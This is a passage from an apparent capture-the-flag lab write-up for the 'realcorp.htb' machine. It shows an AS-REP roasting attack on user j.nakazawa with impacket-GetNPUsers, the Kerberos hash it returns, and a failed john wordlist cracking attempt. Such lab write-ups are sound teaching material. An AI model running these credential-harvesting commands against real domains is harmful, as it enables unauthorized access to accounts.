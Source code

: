 ![](./images/1.png)

## Foothold
- Let's check if `j.nakazawa` is `AS-REP-Roastable` 
```
└─$ impacket-GetNPUsers -no-pass -dc-ip 10.10.10.224 realcorp.htb/j.nakazawa  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for j.nakazawa
$krb5asrep$18$j.nakazawa$REALCORP.HTB$0e2ddaebe3ed76c6aa85e8bc$7aa604e7c0c0c585c6605f846cfce4f16b40d26cac17809f054ba04226ca479e19e10c81f1e62a7fe1e50311adb70d48699b9ce5f92d147affb275ee2978fd6bd3ad79c392a034d5b1befa2543592e0855195eec320da94782b579a0e6be3d4e3c63b95bb511216e84e22ebe6bab9fbb82c6ec7a92580215d47f9a5e7b65924d358d06f16c6a55aa940f859302c5fa51cd8a50d949e0b2168f0a9bf676cf850efb5fcae6b71eaa3c10948dd357aa887b2d69581f54200448a949e3a5b47c76f0274092f244f8be56f50ba7a3af76d36450aae88e8daa3c4d77f943e19f
```
- Can't crack it
```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash         
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 DONE (2023-09-27 17:48) 0g/s 7924Kp/s 7924Kc/s 7924KC/s !SkicA!..*7¡Vamos!
Session completed.
```

